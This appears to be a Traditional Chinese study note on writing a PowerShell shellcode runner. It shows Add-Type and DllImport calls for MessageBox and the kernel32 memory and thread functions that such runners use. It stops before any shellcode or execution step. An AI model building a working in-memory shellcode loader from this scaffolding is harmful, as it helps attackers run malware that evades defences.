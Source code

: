 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@
```

